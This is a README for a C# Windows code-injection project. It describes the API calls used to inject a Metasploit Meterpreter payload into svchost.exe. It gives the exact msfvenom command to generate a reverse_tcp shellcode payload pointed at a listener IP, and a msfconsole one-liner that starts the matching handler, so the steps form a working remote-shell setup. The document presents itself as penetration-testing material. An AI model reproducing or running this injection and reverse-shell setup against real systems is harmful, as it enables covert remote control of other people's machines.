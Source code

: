 # Windows Code Injection in C#

This project is an example of code injection into a target process in Windows using C#. Code injection allows executing a payload in a running process, which can be useful in penetration testing and the development of security techniques.

## General Description

The code injects a payload (generated with `msfvenom`) into a target process (`svchost.exe`). It uses Windows API functions to:

1. **Create a new process**: The `CreateProcess` function is employed to launch a new process. In this case, the target process is `C:\Windows\System32\svchost.exe`.

2. **Allocate memory**: Once the process is created, `VirtualAllocEx` is used to allocate a block of memory in the process where the payload will be stored.

3. **Write the payload**: Using `WriteProcessMemory`, the payload code is written to the previously allocated memory. This allows the target process to execute the code we provided.

4. **Modify memory protection**: The `VirtualProtectEx` function is used to change the permissions of the allocated memory, allowing code execution (PAGE_EXECUTE_READWRITE).

5. **Create a remote thread**: A thread is generated in the target process using `CreateRemoteThread`, which is responsible for executing the payload in the allocated memory.

6. **Resume the thread**: Finally, `ResumeThread` is used to start the thread, activating the injected payload.

The workflow is set up so that after executing the code, the payload communicates with a Metasploit listener, allowing for remote interaction with the compromised system.

## Payload Generation

Before running the code, you need to create a payload to be injected into the process. Use the following command in Kali Linux:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.84.142 LPORT=443 EXITFUNC=thread -f csharp
```

## Setting Up the Listener

Configure a listener in Metasploit before executing the program using the following command:

```bash
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set EXITFUNC thread;set LPORT 443;set LHOST 172.16.84.142;set ExitOnSession false; run -j -z"
```




